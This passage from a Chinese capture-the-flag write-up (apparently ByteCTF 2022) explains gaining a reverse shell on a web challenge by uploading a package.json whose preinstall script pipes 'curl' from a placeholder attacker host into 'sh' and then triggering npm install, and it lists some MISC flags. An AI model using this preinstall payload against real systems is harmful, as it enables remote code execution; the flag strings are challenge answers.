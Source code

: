 用户名随便填一个，密码使用上面的注册语句，然后admin，123就可以登录成功了！

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-48f2cdf59a45794ac3b01201de8b6de388506747.png)

然后来到dashboard.js，主要功能就是可以上传文件，list出上传文件，设置package.json的dependencies，reset将app目录初始化，run可以npm install，kill就是删除npm install的相关文件。先整理一下目录：

```php
__dirname: /usr/local/app/xxx  
appPath:/usr/local/app/public/app  
appBackPath:/usr/local/app/public/app\_backup
```

去npm官方文档查阅：<https://docs.npmjs.com/cli/v8/configuring-npm/package-json#urls-as-dependencies>

发现可以配合本地文件进行**script-preinstall-rce**

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-17149b3e21fc5a4df6ff965c6daa6fbfca8889fa.png)

先上传一个package.json（利用/usr/local/app/public/app这个目录下的这个），有点坑，需要自己写一个上传表单，记得带上cookie

```php
{  
    "name": "userapp",  
    "version": "0.0.1",  
    "scripts": {  
        "preinstall": "bash -c 'curl https://your-shell.com/vps:port | sh'"  
    }  
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d029a11674a83a6d4d1a1de41c47430a69d98b18.png)

然后配置项目根目录下的package.json的dependencies，post传，改content-type：application/json  
`{"dependencies":{"v1nd":"file:./public/uploads/"}}`  
然后run一下，就反弹shell了

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-f0acf48d049e6d421575e4f5593bf0588a239f8b.png)

0x02 MISC
=========

**signin**
----------

队伍页面抓包可以获得id，重放即可

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-8b115cf471bc567e7eb46e4c57539af6e65e7855.png)  
`ByteCTF{Hop3\_Y0u\_hav3\_fun!\_30bed8ac}`

survey
------

签退题，回答问卷即可拿flag

**easy\_groovy**
----------------
